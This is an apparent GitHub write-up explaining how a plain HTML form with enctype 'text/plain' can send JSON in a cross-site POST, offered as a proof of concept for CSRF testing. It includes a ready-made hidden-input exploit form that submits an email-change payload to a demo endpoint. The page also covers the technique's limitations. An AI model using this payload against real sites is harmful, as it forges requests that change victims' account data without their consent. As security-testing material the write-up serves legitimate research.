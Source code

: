 ## Vanilla HTML JSON Form

This article presents a straightforward Proof of Concept (POC) for making CORS-compliant POST requests with JSON data. No Javascript involved!

### Background
While testing for Cross-Site Request Forgery (CSRF) vulnerabilities, I discovered several endpoints that only accepted JSON data in POST requests. I aimed to devise a simple method to submit data from a client/browser to these endpoints, thereby potentially exploiting CSRF. This task proved challenging because there is no native way to send CORS JSON data via POST to another site (perhaps for security reasons).

### Proof of Concept

The POC leverages the fact that the `enctype` attribute can be set to `text/plain`, which circumvents sanitization of keys or values.

#### Example

Suppose we want to send the following JSON data to an endpoint (for demonstration, we use https://httpbin.smp.io/post):
```json
{"action": "edit", "email": "newemail@test.com"}
```

To construct a form for this data, we split it into two parts: a key and a value. The key will consistently look like this:
```json
{"dummy":"
```
The value will be:
```json
","action": "edit", "email": "newemail@test.com"}
```

When the form submits these parts, they combine in the request as:
```json
{"dummy":"=","action": "edit", "email": "newemail@test.com"}
```
This forms a valid JSON structure that the server can parse. By escaping the `"` character to `&quot;`, we create a POC form as follows:

```html
<form name="exploit" enctype="text/plain" action="https://httpbin.smp.io/post" method="post">
    <input type="hidden" name="{&quot;dummy&quot;:&quot;" value="&quot;,&quot;action&quot;:&quot;edit&quot;,&quot;email&quot;:&quot;newemail@test.com&quot;}">
    <button>Submit</button>
</form>
```

This technique allows you to explore and interact with various POST REST APIs from the client side.

### Limitations

This approach introduces an additional key-value pair in the JSON data (`"dummy":"="`), which may be detected by some structural validation checks. Furthermore, the client sends the data with the Content-Type `text/plain`, which some servers may reject.

### Conclusion

If you found this article helpful, consider giving a star or follow on GitHub.

- cli-ish
